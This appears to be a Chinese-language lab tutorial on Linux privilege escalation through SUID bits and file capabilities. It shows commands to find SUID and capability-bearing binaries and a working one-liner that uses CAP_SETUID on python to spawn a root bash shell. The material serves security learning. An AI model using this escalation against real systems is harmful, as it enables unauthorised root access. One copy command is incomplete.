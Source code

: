 # 使用功能的Linux特权升级

## 0x01 SUID
能力介绍
Linux中的功能是什么

在获得功能之前，我们只有特权和非特权进程的二进制系统，并且出于执行权限检查的目的，传统的UNIX实现将进程分为两类：特权进程（称为超级用户或根）和非特权进程（其有效UID为非零）。

功能是将内核用户或内核级程序的特权分成小块的那些权限，以便可以使进程有足够的能力执行特定的特权任务。

功能和SUID之间的区别

SUID： SUID代表设置的用户ID，并允许用户以文件所有者的身份执行文件。这被定义为授予用户临时权限，使其在文件所有者（而不是运行文件所有者）的权限下运行程序/文件。使用“查找”命令可以很容易地检测到。要查找在当前目录中设置了SUID的所有文件，我们可以使用-perm选项，该选项将仅打印许可权设置为4000的文件（允许进程临时使用root的权限执行）

给予某个文件拥有临时权限的命令
例子：
```
chmod u+s /usr/bin/python
```

使用find命令可以找出SUID文件
```
find / -perm -u=s -type f 2>/dev/null
```
![Qmmes0.png](https://s2.ax1x.com/2019/12/01/Qmmes0.png)

## 0x02 牛刀小试
setcap详解：[setcap详解 - 农夫运维 - 博客园](https://www.cnblogs.com/nf01/articles/10418141.html)
setcap简要说明：
```
 Capabilities的主要思想在于分割root用户的特权，即将root的特权分割成不同的能力，每种能力代表一定的特权操作。例如：能力CAP_SYS_MODULE表示用户能够加载(或卸载)内核模块的特权操作，而CAP_SETUID表示用户能够修改进程用户身份的特权操作。在Capbilities中系统将根据进程拥有的能力来进行特权操作的访问控制。
```

getcap：检索setcap所设置的文件
```
getcap -r  / 2>/dev/null
```
![QmnH9H.png](https://s2.ax1x.com/2019/12/01/QmnH9H.png)

## 0x03实验
```
OS：kali
测试用户：root、test
```
先用root用户给予python SUID
```
chmod u+s /usr/bin/python
```

查找一波对应的SUID权限的文件,确定是否给予成功
```
find / -perm -u=s -type f 2>/dev/null
```
![Qm1t9U.png](https://s2.ax1x.com/2019/12/01/Qm1t9U.png)

复制python到/tmp目录下，拟态和文章类似的构造
```
cp /usr/bin/python
```
![Qm3OJK.png](https://s2.ax1x.com/2019/12/01/Qm3OJK.png)

setcap给予tmp目录下的python一个用户临时执行权限
```
setcap CAP_SETUID+ep /tmp/python
```
![Qm8ues.png](https://s2.ax1x.com/2019/12/01/Qm8ues.png)

切换至test用户，执行以下命令即可获取一个root权限
```
getcap -r / 2>/dev/null #查询被赋予权限的文件
```
![Qm8sSO.png](https://s2.ax1x.com/2019/12/01/Qm8sSO.png)

```
./python -c 'import os;os.setuid(0);os.system("/bin/bash")'
```
![Qm8hkt.png](https://s2.ax1x.com/2019/12/01/Qm8hkt.png)

## 0x04结论
getcap -r / 2>/dev/null #查询被赋予CAP_SETUID权限的文件，来获取某些文件是否有利用的价值。目前得出可以利用用的几个
```
perl
python
tar
```

## 0x05参考链接
[Hacking Articles - Raj Chandel's Blog](https://www.hackingarticles.in/)
[getcap(8) - Linux manual page](http://man7.org/linux/man-pages/man8/getcap.8.html)
[setcap详解 - 农夫运维 - 博客园](https://www.cnblogs.com/nf01/articles/10418141.html)  